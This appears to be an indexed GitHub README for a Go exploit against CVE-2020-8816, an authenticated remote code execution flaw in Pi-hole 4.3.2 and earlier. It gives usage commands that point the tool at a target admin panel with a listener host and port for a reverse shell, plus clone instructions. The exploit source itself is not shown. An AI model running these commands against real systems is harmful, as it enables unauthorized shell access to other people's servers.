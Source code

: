 # CVE-2020-8816

Pi-hole ( <= 4.3.2)  authenticated remote code execution.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/team0se7en](https://github.com/team0se7en) |
| Url      | [https://github.com/team0se7en/CVE-2020-8816](https://github.com/team0se7en/CVE-2020-8816)                                               |
| Stars    | 6                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2020-8811* exploit* golang* pi-hole* privesc* rce

</details>

## Readme

## CVE 2020-8816 :

[Pi-hole](https://fr.wikipedia.org/wiki/Pi-hole) (versions <= 4.3.2 ) is affected by a Remote Code Execution vulnerability. An  authenticated user of the Web portal can execute arbitrary command with  the underlying server with the privileges of the local user executing  the service. 

## EXAMPLE :

` go run CVE-2020-8816.go -host $LHOST -p $LPORT -pass admin -u http://4c9a7a45fa37.ngrok.io/admin/ `

or download the binary [CVE-2020-8816](https://github.com/team0se7en/CVE-2020-8816/releases/tag/0.0.1) :

` ./CVE-2020-8816 -host $LHOST -p $LPORT -pass admin -u http://4c9a7a45fa37.ngrok.io/admin/ ` 

<img src="src/1.png" alt="page" style="zoom:25%;" /> 

<img src="src/2.png" alt="page" style="zoom:25%;" /> 

<img src="src/3.png" alt="page" style="zoom:25%;" /> 

## References :

- https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/






## Get the content

```
git clone https://github.com/team0se7en/CVE-2020-8816
cd CVE-2020-8816
```

{% embed url="https://github.com/team0se7en/CVE-2020-8816" %}

<figure><img src="https://avatars.githubusercontent.com/u/49656318?v=4" alt=""><figcaption><p>team0se7en</p></figcaption></figure>
